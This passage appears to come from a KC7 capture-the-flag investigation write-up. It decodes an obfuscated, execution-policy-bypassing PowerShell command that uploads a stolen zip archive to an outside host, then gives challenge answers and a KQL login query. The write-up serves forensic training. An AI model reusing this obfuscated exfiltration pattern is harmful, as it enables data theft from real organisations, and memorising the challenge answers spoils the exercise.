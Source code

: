 Luckily, we can use a tool like [CyberChef](https://gchq.github.io/CyberChef/) to easily decode base64 and analyze what the command was doing.

**What is the full URL where the files were exfiltrated to?**

> `http://im-your-huckleberry.com/aintnothintolookatherepartnakeetitpushin`
> 

```bash
                                  
❯ cat > b64                  
QzpcV2luZG93c1xTeXN0ZW0zMlxwb3dlcnNoZWxsLmV4ZSAtTm9wIC1FeGVjdXRpb25Qb2xpY3kgYnlwYXNzIC1Db21tYW5kICIkcmV2ID0gJzMgeXJ0ZXItLSBCTTUgZXppcy1rbnVoYy0tIHRweXJjbmUtLSBuaWhzdXB0aXRlZWthbnRyYXBlcmVodGFrb29sb3RuaWh0b250bmlhL21vYy55cnJlYmVsa2N1aC1ydW95LW1pLy86cHR0aCB0c2VkLS0gcGl6LnRvb2xfZGVvc3NhbFxjaWxidVBcc3Jlc1VcOkMgZWxpZi0tIGV4ZS5yZWRhb2xwdS1kZWNuYXZkYSc7JHJldls6Oi0xXSI=   
KC7 on  main [?] took 5s 
                                                                          

❯ base64 -d b64 > decode
                                                                         
❯ cat decode      
C:\Windows\System32\powershell.exe -Nop -ExecutionPolicy bypass -Command "$rev = '3 yrter-- BM5 ezis-knuhc-- tpyrcne-- nihsuptiteekantraperehtakoolotnihtontnia/moc.yrrebelkcuh-ruoy-mi//:ptth tsed-- piz.tool_deossal\cilbuP\sresU\:C elif-- exe.redaolpu-decnavda';$rev[::-1]"                                                                                                 
❯ echo '3 yrter-- BM5 ezis-knuhc-- tpyrcne-- nihsuptiteekantraperehtakoolotnihtontnia/moc.yrrebelkcuh-ruoy-mi//:ptth tsed-- piz.tool_deossal\cilbuP\sresU\:C elif-- exe.redaolpu-decnavda' | rev
lassoed_loot.zip --dest http://im-your-huckleberry.com/aintnothintolookatherepartnakeetitpushin --encrypt --chunk-size 5MB --retry 3 
```

### Question 10

It sure looks👀 like Megan is guilty, but just as you’re about to wrap up your investigation and call it a day, you get an unexpected message in your Teams chat.

![](https://nm0g0vqj.tinifycdn.com/photos/teamsmemes-chat.jpg)

**What database table contains evidence of employee logins?**

> `AuthenticationEvents`
> 

### Question 11

In Megan’s login history, one of these logins stands out from the others! It contains a different source IP and user-agent. This is called an anomaly and could be the key🔑 to uncovering more about the attack.

**Paste the timestamp for when that anomalous login occurred.**

> `9/23/2024, 6:58:54 AM`
> 

```bash
AuthenticationEvents
| where username == "melucia"
| where result == "Successful Login"
| summarize count() by src_ip
```
